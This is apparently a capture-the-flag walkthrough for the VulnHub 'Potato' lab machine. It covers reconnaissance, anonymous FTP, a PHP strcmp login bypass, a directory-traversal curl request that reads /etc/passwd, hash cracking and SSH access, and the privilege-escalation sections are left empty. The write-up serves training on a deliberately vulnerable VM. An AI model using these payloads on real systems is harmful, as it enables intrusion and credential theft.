



# Potato: 1 Walkthrough

## Preparation
1. Download Potato.ova file ([Potato.ova](https://download.vulnhub.com/potato/Potato.ova))
1. Import the OVA file in the VirtualBox
1. Set the network adapter to Host-only Adapter

1. Start the Potato virtual machine

1. Confirm the IP address of the Potato virtual machine from the attack virtual machine  

    * 192.168.56.100: DHCP Server
    * **192.168.56.102**: Potato Server
1. Set the Potato IP address to the environment variance  
`export IP=192.168.56.102`  

## Reconnaissance
1. Do portscan using Nmap  
`sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  

    * -sC: Scan with default script
    * -sV: Show software name and the version
    * -Pn: Do not confirm communication before port scan (We have already confirmed the Potato IP address.)
    * -p-: Scan all ports (from 0 to 65535 ports)
    * -oN: Output the scan results to the specified file
1. As we see the nmap result, we can attempt to log in with AnonymousFTP.  

## Initial Access
1. Access the FTP service  
`ftp $IP 2112`  

    * Name: anonymous
    * Password: password (empty is OK)
1. Get index.php.bak and welcome.msg files

1. Exit FTP service  
Input the `exit`.  
1. Confirm the downloaded files
    - Investigate the "welcome.msg" and confirm the content
      
    There is no useful information in this file.  
    - Investigate the "index.php.bak" and confirm the content
      
    username is fixed to "admin"  
    default pass is "potato"  
1. Since we know the index.php page and the Nmap result shows the 80 port is open, we find accessible files and directories using Gobuster.
    - Set the 80 port URL to the environment variance  
    `export URL="http://$IP:80/"`  
    - Input the following gobuster command  
    `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt`  
        * dir: Enumerate directories and files
        * -u: Designate target URL
        * -w: Use dictionary file
    - Find /admin directory
    
1. Access the /admin page using Burp
    - Proxy -> Intercept -> Intercept on -> Open browser -> Enter "http://192.168.56.102/admin" in the browser  
    - Click "Forward" until Login page is shown
    - Enter "admin" in the User and "test" in the Password and click Login button
    - In the "index.php.bak" file, the password is confirmed using the strcmp() function. In the PHP strcmp() function, we designate an array type, and it causes an error. Unfortunately, "NULL == 0" becomes **True** in PHP specification.
    - Change the input password in the Burp  
    Current: `username=admin&password=test`  
    Changed: `username=admin&password[]=test`  
      
    - Change to "Intercept off"
    - Go to the dashboard page and access the Logs page  

## Execution
1. Attempt directory traversal in the Logs page
    - Change to "Intercept on"
    - Select log_01.txt (log_02.txt or log_03.txt is OK) and click the "Get the log" button
    - Change the log_01.txxt file directory  
    Current: `file=log_01.txt`  
    Changed: `../../../../../etc/passwd`  
    
    
1. Make /etc/passwd data file using the Cookie pass and curl command  
    - Cookie pass is as follows
    
    - Curl command is as follows  
    `curl -X POST -b "pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh" -d 'file=../../../../../etc/passwd' "http://192.168.56.102/admin/dashboard.php?page=log" | tr '\0' '\n' | cat > etc_passwd.txt`  
        * -X: Designate HTTP method
        * -b: Send Cookie
        * -d: Send form as POST request
        * tr '\0' '\n': Replace null with carriage return
        * cat > etc_passwd.txt: Output the command result in the etc_passwd.txt
1. Analyze the etc_passwd.txt
    - Extract login-enabled users using the following command  
    `cat etc_passed.txt | grep -P 'sh$'`  
    
        * grep -P 'sh$' is used to search for lines in a file that end with the string sh
        * Login-enabled users have "bash" or "sh" in the 7th field
        * There are "root", "floarianges", and "webadmin" users
    - Extract users who have password hash from the etc_passed.txt file  
    `cat etc_passwd.txt | grep -P 'sh$' | grep webadmin > webadmin_hash.txt`  
    - Decrypt password hash using John the Ripper  
    `john webadmin_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`  
    
        * webadmin password: **dragon**  

## Credential Access for general user
1. SSH access
    - From the Nmap result, as the SSH port is open, we attempt to access SSH
    
        * password: **dragon**
    - Confirm the home directory and access the user.txt file
      

## Privilege Escalation

## Credential Access for root user